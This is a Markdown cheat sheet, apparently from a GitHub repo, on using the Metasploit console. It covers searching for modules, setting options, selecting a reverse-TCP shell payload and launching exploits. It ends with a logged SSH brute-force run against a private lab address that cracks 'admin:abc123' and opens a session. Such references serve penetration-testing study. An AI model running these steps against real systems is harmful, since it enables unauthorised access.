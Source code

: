 # MSFConsole

[Metasploit Framework](https://github.com/rapid7/metasploit-framework)

### Open the console:
```
# running as sudo lets you use ports below 1024
sudo msfconsole
```

### Update the exploit database:
```
msfupdate
```

### Search for exploits:
```
search rlogin

# search explicitly by type
search rlogin type:exploit
```

### View more information about an exploit:
```
info {exploit_name}

Example:
info auxiliary/scanner/rservices/rlogin_login
```

### View the source of an exploit:
```
edit
```

### Use an exploit:
```
use {exploit_name}

Example:
use auxiliary/scanner/rservices/rlogin_login
```

### Show the options of an exploit:
```
show options
```

### Set an option in an exploit:
```
set PASSWORD password123
```

### Select a payload:
```
>> show payloads
>> set payload payload/linux/x64/shell_reverse_tcp
```

### Set an option globally:
```
setg LHOST 192.168.199.128
```

### Launch an exploit:
```
exploit {ip_address}

Example:
exploit 192.168.199.132
```
OR
```
run {ip_address}

Example:
run 192.168.199.132
```

### See the targets that an exploit affects:
```
show targets
```

### Run exploits over SSH:
```
[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/ssh/ssh_login
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_login) >> set rhosts 192.168.199.129
rhosts => 192.168.199.129
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_login) >> set username admin
username => admin
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_login) >> set password abc123
password => abc123
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_login) >> exploit

[*] 192.168.199.129:22 - Starting bruteforce
[+] 192.168.199.129:22 - Success: 'admin:abc123' 'uid=1005(admin) gid=1005(admin) groups=1005(admin) Linux fsociety 5.13.0-37-generic #42~20.04.1-Ubuntu SMP Tue Mar 15 15:44:28 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (192.168.199.130:38363 -> 192.168.199.129:22) at 2023-04-05 20:50:54 -0700
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

